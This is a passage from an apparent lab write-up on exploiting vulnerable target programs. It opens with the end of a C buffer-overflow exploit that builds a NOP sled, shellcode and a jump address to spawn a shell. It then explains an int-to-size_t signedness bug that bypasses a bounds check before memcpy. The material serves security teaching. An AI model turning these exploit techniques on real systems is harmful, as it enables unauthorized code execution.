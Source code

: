 ```c
  int i = 0;
  while(i < 191){
    args[1][i] = NOP;
    i = i+1;
  }

  strcat(args[1],shellcode);
  strcat(args[1],jump_addr);
  // add the last bytes
  args[1][240] = LAST_BYTE;
  args[0] = TARGET;
  args[2] = NULL;
  env[0] = NULL;
  if (0 > execve(TARGET, args, env))
    fprintf(stderr, "execve failed.\n");

  return 0;
}
```

now if we run `./sploit2` a bash shell should have spawned, cheers.

## Sploit 3

### Understanding the vulnerability

To start we proceed as usual and review the source code of `target3.c`. As we can see the program expects as an argument a decimal number encoded in ASCII in the 10 first bytes followed by a comma and a list of `widget_t` . The decimal number is interpreted as the number of struct `widget_t` contained in the list.

The programmer was cautious and hence defined a constant `MAX_WIDGET` in order to set an upper bound on the number of widgets that will be copied into the buffer `buf`. However, in the `main` function the programmer converts the provided decimal number to an `int` type without performing any checks. This value is then converted to a `size_t` type when provided to the `memcpy` function. To understand how this can be exploited lets take a look at how these types are encoded on a 32-bit machine:

- An `int` represents a signed integer and encoded using the two's complement encoding on 32 bits (see [https://en.wikipedia.org/wiki/Two%27s_complement](https://en.wikipedia.org/wiki/Two's_complement)). Therefore when the binary's most significant bit is set to one, the binary value encodes a negative integer.
- A `size_t` represents an unsigned integer encoded on 32 bits which can  represent values up to 2³²-1.
- Converting a negative `int` to a `size_t` will  yield a value between 2³¹ and 2³²-1.

With this insight we can deduce the following:

- if we provide a decimal value for `count` between 2³¹ and 2³²-1, then `count` will be understood by the program as a negative value in the `foo` function and the `if` condition at line 17 will pass.
- the program will convert `count` to a `size_t` type  when calling the `memcpy` function and multiply this value by 20.
